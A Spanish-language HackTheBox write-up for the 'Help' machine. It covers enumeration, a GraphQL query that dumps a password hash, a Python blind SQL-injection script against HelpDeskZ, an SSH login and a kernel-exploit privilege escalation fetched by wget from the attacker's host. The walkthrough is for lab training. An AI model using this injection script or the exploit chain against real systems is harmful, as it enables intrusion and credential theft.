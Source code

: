 ```yaml
---
title: HackTheBox - Help
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SQL Injection', Graphql, 'Kernel Exploitation']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Help/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Help Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Laravel Exploitation, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Help`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Help/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Help/02-versions.png)

    > Vemos que si vamos colocamos la **IP** de la **`Máquina Help`** en el navegador nos redirige a **`http://help.htb`**, por lo cual lo colocamos en el archivo **`/etc/hosts`**.
    {: .prompt-info }

c. Encontramos lo siguiente en **http://help.htb**

![](/assets/images/HTB/Easy/Help/03-web.png)

* Enumeramos por posibles directorios

  ```bash
  wfuzz -c -t 80 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://help.htb/FUZZ/ 
  
  000000055:   200        96 L     236 W      4413 Ch     "support"
  ```

* Al visitar **/support** notamos que se usa **`HelpDeskz`**, si bucamos vulnerabilidades nos encontramos con una **`SQLi (Authenticated)`**, por lo cual necesitamos de credenciales válidas.

d. Enumeramos el servicio que se ejecuta por el puerto **3000** (Debemos usar varios diccionarios)

```
wfuzz -c -t 80 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/big.txt http://<IP>:3000 

000020476:   400        0 L      3 W        18 Ch       "graphql" 
```

## Grapql Exploitation 🍇

* El servicio de **graphql** puede ser explotable [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)

  1. Enviamos una petición por **POST** para enumerar el servicio

      ![](/assets/images/HTB/Easy/Help/06-data.png)


      ```bash
      curl -s -X POST "http://<IP>:3000/graphql" -H "Content-Type: application/json" -d 'PAYLOAD' \| jq
      ```

      ```json
      <SNIP>
      "name": "User",
      "fields": [
        {
          "name": "username"
        },
        {
          "name": "password"
        }
      ]
      <SNIP>
      ```

  2. Ahora, podemos enviar una solicitud para obtener el esquema de **graphql** y poder representarlo gráficamente en [Graphql-Voyager](https://graphql-kit.com/graphql-voyager/)

  
      * En navegador: 

        ```
        http://<IP>:3000/graphql?query=fragment%...[PAYLOAD EN HACKTRICKS]...
        ```

      * El output del navegador lo pegamos en [Graphql-Voyager](https://graphql-kit.com/graphql-voyager/) y podremos ver de mejor forma la **"base de datos"**


        ![](/assets/images/HTB/Easy/Help/04-graphql.png)

        > Representación de `Graphql`

      * Ahora, realizamos una consulta para obtener los datos, en base al esquema anterior

        ```
        curl -s -X POST "http://<IP>:3000/graphql" -H "Content-Type: application/json" -d '{"query":"{user{username,password}}"}'

        {"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}
        ```

  3. La contraseña está cifrada con **MD5**, usamos **`dcode 5d3c93182bb20f07b994a7f617e99cff`** y la veremos en texto plano **`godhelpmeplz`**

     * Ahora, nos podemos autenticar en el servicio **`http://help.htb/support`** y podemos explotar la vulnerabilidad **SQLi**

        ```python
        import requests
        import string
        from pwn import *

        url_main = "http://help.htb"
        characteres = string.ascii_letters + string.digits + ',.+@_ :'

        headers = {"Cookie": "<Cookie>"}
        bar_1 = log.progress("Brute Force")
        bar_1.status("Starting Brute Force...")
        bar_2 = log.progress("Data")
        database_name=""

        for position in range(1,200):
          for character in characteres:
            sqli_url = f"/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=7 and substr((select group_concat(username,':', password) from staff),{position},1) = '{character}'-- -"
            bar_1.status(sqli_url)
            r = requests.get(url_main+sqli_url, cookies=headers)
            if ("Page not found" not in r.text):
              database_name+=character
              bar_2.status(database_name)
              break
        ```


       ```bash
       [q] Databases Name: information_schema,mysql,performance_schema,support
       [-] Tables 'support': articles,attachments,canned_response,custom_fields,departments,emails,error_log,file_types,knowledgebase_category,login_attempt,login_log,news,pages,priority,settings,staff,tickets,tickets_messages,...
       [l] Columns: id,username,password,fullname,email,login,last_login,department,timezone,signature,newticket_notification,avatar,admin,status
       [k] username, password: admin:d318f44739dced66793b1a603028133a76ae680e (SHA1) -> Welcome1
       ```

  4. Al autenticarnos en el servicio **`HelpDeskz`** conseguimos un nombre de usuario

  ![](/assets/images/HTB/Easy/Help/05-user.png)

  5. Al ir testeando con algunos nombres de usuarios que contengan **`helpme`** damos con **`help`** para autenticarnos en el servicio **`ssh`**

    ```bash
    ssh help@<IP>
    Password: Welcome1
    help@help:~$
    ```

### Escalada de Privilegios 💹

a. El sistema es vulnerable a un **`kernel exploit`** [Exploit](https://www.exploit-db.com/exploits/44298)

```bash
help@help:~/help$ uname -a           
Linux help 4.4.0-116-generic #140-Ubuntu
```

b. Lo descargamos en nuestra **Máquina Atacante** para tranferirlo a la **`Máquina Víctima`**

* Máquina Atacante: **python -m http.server 8000**
* Máquina Víctima: **wget <tun0 IP>:8000/exploit.c -o-** -> **gcc exploit.c -o backup**

c. Una vez ejecutamos el archivo **`backup`** tenemos acceso como **`root`** y podemos leer las **`flags`**

```bash
help@help:~/help$ ./backup 
task_struct = ffff880038906a40
uidptr = ffff88003619a6c4
spawning root shell
root@help:~/help# whoami
root
root@help:~/help# find / -name root.txt 2>/dev/null | xargs cat
f68cb05096d8f2a4bb36f975435c582a
root@help:~/help# find / -name user.txt 2>/dev/null | xargs cat
401375d4050453ea5583cd902da8104a
```